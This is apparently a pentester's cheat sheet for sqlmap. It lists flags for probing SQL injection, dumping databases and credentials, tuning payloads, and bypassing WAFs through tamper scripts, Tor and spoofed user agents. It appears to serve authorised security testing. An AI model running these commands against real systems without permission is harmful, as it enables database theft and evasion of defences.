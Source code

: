 - IIS &rarr; Probably Windows &rarr; likely `MSSQL`

##### sqlmap: 

- [Wiki & Usage](https://github.com/sqlmapproject/sqlmap/wiki/usage) 
- In Net Inspector: `Copy` > `Copy Request Headers`
- `sqlscan <query.txt>`

```bash
#-----------------------------GENERAL----------------------------------

# General query
sqlmap [CURL_QUERY]	/ -r [query.txt] 			# Test all parameters
sqlmap [CURL_QUERY] -p [PARAM_TO_TEST]
sqlmap [CURL_QUERY + APPEND * TO PARAM TO TEST]

# Header
-H='<HEADER_KEY>: <VALUE>'		# Header specification
--<header_key>='<value>'		# Add * to test for injection

# Good to have
--dump-all --exclude-sysdbs		# Automatically dump all the data
--flush-session --fresh-queries	# Clean prev sessions
--threads 10
-v 3

# DB Enumeration
--smart							# Runs euristics
--schema 						# Table structure
--search [ -T, -C] <string>		# search as LIKE operator in table, col
--dump -D <db> -T <table>		# Dump a table
--passwords						# Find credentials

# Payload tuning
--prefix= / --suffix=			# Boundaries of the payload
--level=<1-5 [d1]> 				# Extends payloads based on success prob
--risk=<1-3 [d1]>				# Extends payloads based on risk

--code=<status_code>			# Filter by status code of success
--titles=<http_title>
--string=<success_string>
--text-only 					# Comparison only on visible content
--technique=BEUSQT

-union-cols=<No.DB columns>		# For UNION Inj
--union-char='a'				# Value of the column (default NULL)
--union-from=<table>			# append in the form FROM <table>	

#-----------------------------BYPASS----------------------------------

# WAF bypass 
--skip-waf						# Skip WAF identification
--random-agent 					# random User-agent 
--mobile 						# Imitate a smartphone  
--tor --check-tor				# Tor proxy: sudo service tor start
--chunked						# Splits POST requests in chunks
--list-tampers					# Determine tamper with ~/TOOLS/ATLAS.py
--tamper=between,space2comment,equaltolike,escapequotes

# Debugging
--parse-errors						# Show DBMS errors
-t /tmp/traffic.txt					# Stores traffic content
--proxy	"http://127.0.0.1:9999"		# redirect to a proxy (Burp)

# Protections Bypass
```